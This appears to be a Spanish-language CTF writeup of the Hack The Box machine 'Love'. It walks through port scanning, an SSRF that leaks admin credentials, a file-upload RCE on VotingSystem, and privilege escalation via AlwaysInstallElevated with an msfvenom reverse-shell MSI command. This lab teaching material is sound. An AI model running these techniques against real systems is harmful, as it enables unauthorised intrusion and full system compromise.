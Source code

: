 ```yaml
---
title: "Love - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://raw.githubusercontent.com/Wiinsad/Wiinsad.github.io/master/assets/images/machines/HTB/Love/data/love.png"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/Hackthebox2.png?raw=true"
categories:
  - Writeup
  - HackTheBox
tags:
  - Ssrf
  - RCE
  - Key Registry Abuse
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/Wiinsad.github.io/master/assets/images/machines/HTB/Love/data/loveHTB.png">
</p>

La máquina **love** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **EASY** una calificación en el rank de 4.4, **9403 USER OWNS** y **8307 SYSTEM OWNS** con la ip **10.10.10.239** y un sistema operativo **Windows**.

## Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.239]** utilizando los parámetros:
- **-p-:**    Escaneo a toda la gama de puertos (65536).
- **-n:**     No hacen la resolución del DNS.
- **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
- **--open:** Muestra sólo los puertos con un estatus abierto.
- **-oG:**    Guarda la el output en formato Grepeable.


  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPorts**, vemos que los puertos que destacaron en este caso fueron **80,135,139,443,445,3306,5000,5040,5985,5986,7680,47001,49664,49665,49666,49667,49668,49669,49670**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/Ports.png">
  </p>


  Ya identificados los puertos abiertos realizare un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/PortServ.png">
  </p>

  Con este escaneo a versiones y servicio no pude sacar demasiada información así que empezare a enumerar manualmente los puertos, como veo que existe el puerto **80** entrare vía web para ver el contenido de la pagina.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/web.png">
  </p>

Al entrar se puede observar que existe un panel de login pero al no conocer las credenciales no puedo hacer gran cosa y ya que las cuentas por defecto no funciona como **"admin:admin, admin:'null',administrator:administrator, etc."** lo que haré sera con la herramienta de **openssl** conectarme al puerto 443 para ver si me brinda alguna información útil.


  Para hacer esto use el siguiente comando:

```bash
openssl s_client -connect 10.10.10.239:443
```

  Al hacer esto puedo ver que entre la información que me otorga se puede ver que existe un dominio **love.htb** y un subdominio **staging.love.htb**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/sub.png">
  </p>

  Estos dominios los agregare a la ruta de **/etc/hosts**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/hosts.png">
  </p>

  Ya implementado en mi **hosts** puedo ver que entrando a estos dominios por web específicamente a **staging.love.htb** puedo ver algo diferente a la web que anteriormente me mostró el puerto **80**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/web1.png">
  </p>

## Lateral Movement
  Examinando la pagina entrando a la pestaña de demo puedo ver que hay un panel en la seccion de **Demo** el cual me pide una **url**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/web2.png">
  </p>

 Haciendo pruebas en la web puedo ver que es vulnerable a una ataque **SSRF** ya que si ingreso la url de **http://localhost** me interpreta el contenido y me muestra el mismo panel de login que cuando accedía a la web por el puerto 80.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/web3.png">
 </p>


 Sabiendo esto y recordando los puertos que estaban disponibles ingrese el puerto 5000 el cual desde mi navegador no es posible acceder pero en el escaneo estaba el puerto abierto asi que ingresandolo como **localhost** en la web si es posible.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/web4.png">
 </p>

 Como se puede ver el contenido que me da son unas credenciales que son para el usuario **admin** pero ingresando estas credenciales en el login de la web del puerto **80** no es posible acceder pero haciendo **fuzzing** en la web puedo encontrar un subdirectorio **admin**.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/fuzz.png">
 </p>

 Entrando a la url **http://love.htb/admin** puedo ver que existe un login similar y si ingreso las credenciales accedo al panel de administrador del gestor **VotingSystem**.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/web5.png">
 </p>

 Buscando en la herramienta de **searchsploit** existe un exploit el cual es un **File Upload RCE** y leyendo el exploit lo que hace es subir un archivo php el cual tengan contenido malicioso que me otorga una shell a la maquina y baypasea una mala sanitizacion de código que verifica en la cabecera si el archivo que se sube es una imagen.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/exp.png">
 </p>


 Para poder usar este exploit se tienen que setear los datos del payload como **Ip, Username, Password, Ip Destino, Port Destino** y también se tiene que modificar las url que ya están seteadas y adaptarlas a las que maneja la web eliminando el **/votesystem/** de las mismas.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/pay.png">
 </p>

 <div align="center">
 <table class="center"><tr>
 <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/b.png">
 <div class="caption" >Url Predeterminadas.</div></center></td>
 <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/a.png">
 <div class="caption">Url Adaptadas.</div></center></td>
 </tr></table>
 </div>

 Ya modificado y adaptado el exploit haciendo uso de la herramienta de netcat para ponerme en escucha por el puerto **443** y en paralelo ejecutando el exploit veo que el exploit funciona correctamente y me otorga la **shell**.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/shell.png">
 </p>

## Privilege escalation


Como se puede ver accedo como el usuario **phoebe** y ya puedo visualizar la flag de **user.txt**.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/flag.png">
</p>

Ahora que estoy dentro de la maquina toca escalar privilegios para esto iré a la ruta **C:\Users\Phoebe\AppData\Local\Temp** y con el comando **mkdir winsad** crear una carpeta donde pueda introducir la herramienta necesaria.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/temp.png">
</p>

En esta ocasión haré uso de la herramienta **winpeas** la cual sirve para enumerar un sistema Windows mostrando datos que recolecta de una scaner que hace el sistema.


Para esto me descargare el [winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) y compartiendo un recurso compartido por **smb** con impacket copiare en winpeas al equipo victima.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/winp.png">
</p>


Una vez que el binario esta en el equipo victima procedo a ejecutarlo y esperar los resultados.

En los resultados que mostró se puede ver que existen 2 llaves de registro habilitadas las cuales se pueden abusar para escalar privilegios con la ejecución de un binario **.msi** malicioso.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/elev.png">
</p>


Una vez visto esto voy a mi consola y con **msfvenom** me creo un binario msi el cual al ser ejecutado me entable una shell a mi equipo por el puerto 443.


```bash

msfvenom -p windows/x64/shell/reverse_tcp LPORT=443 LHOST=10.10.15.125 -f msi -o winshell.msi

```

Una vez creado el binario de igual forma levanto un recurso compartido por **smb** y copeo el binario a la carpeta que cree en la ruta **Temp**.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/winsh.png">
</p>

Como se pude ver a la hora de ejecutar el binario que cree en la maquina victima de lado de donde estoy en escucha con **netcat** por el puerto 443 me otorga la shell como **nt authority\system**.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/root.png">
</p>

De esta forma teniendo el usuario administrador y así pudiendo visualizar la flag e **root.txt** y rooteando la maquina al **100%**.
